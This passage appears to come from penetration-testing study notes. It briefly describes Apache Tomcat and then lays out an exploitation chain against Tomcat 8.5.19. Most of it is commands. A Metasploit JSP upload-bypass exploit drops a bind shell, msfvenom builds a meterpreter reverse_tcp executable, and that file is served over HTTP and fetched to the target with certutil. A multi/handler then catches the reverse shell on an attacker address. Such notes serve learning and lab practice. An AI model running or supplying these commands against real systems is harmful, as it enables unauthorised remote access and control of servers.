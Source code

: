 ```bash
meterpreter> sysinfo
```

### Windows : Apache Tomcat

#### Definition

* Also known as Tomcat server, is a popular, free and open source Java servlet web server.
* It is used to build and host dynamic websites and web applications based on the Java software platform.
* Apache Tomcat utilize the HTTP protocol to facilitate the underlying communication between the server and clients.
* It runs on TCP port 8080 by default.
* The standard Apache HTTP web server is used to host static and dynamic websites or web applications, typically developed in PHP.
* The Apache Tomcat web server is primarily used to host dynamic websites or web applications developed in Java.
* **Apache Tomcat V8.5.19** is vulnerable to a remote code execute vulnerability that could potentially allow an attacker to upload and execute a JSP (Java Service Page) payload in order to gain remote access to the target server.
* We can utilize a prebuilt MSF exploit module to exploit this vulnerability and consequently gain access to the target server.

```bash
kali@kali> service postgresql start && msfconsole

msf6> workspace -a tomcat
msf6> services
msf6> search type:exploit name:tomcat_jsp

msf6> use multi/http/tomcat_jsp_upload_bypass
msf6> set payload java/jsp_shell_bind_tcp
msf6> set shell cmd
msf6> run
```

Transfer a meterpreter payload.

```bash
kali@kali> msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.9.2 lport=1234 -f exe -o meterpreter.exe
kali@kali> python3 -m http.server 80
```

```bash
C:\Temp> certutil -urlcache -f http://10.10.9.2/meterpreter.exe meterpreter.exe
```

Create a MSF script.

```
use multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 10.10.9.2
set lport 1234
run
```
